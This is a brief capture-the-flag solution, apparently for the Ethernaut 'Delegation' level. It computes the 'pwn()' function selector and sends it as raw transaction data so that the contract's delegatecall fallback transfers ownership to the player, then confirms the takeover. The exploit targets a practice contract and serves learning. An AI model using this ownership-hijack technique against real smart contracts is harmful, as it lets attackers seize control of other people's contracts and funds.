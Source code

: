 # Delegation solution

1. Calculate function `pwn()` signature  
`web3.sha3("pwn()").substring(0, 10)`  
"0xdd365b8b"

2. Invoke function to transfer ownership
```
await contract.sendTransaction({
  from: player,
  data: "0xdd365b8b"
})
```

3. Check contract owner  
`player === await contract.owner()`  
true  

4. Submit Instance 🎉
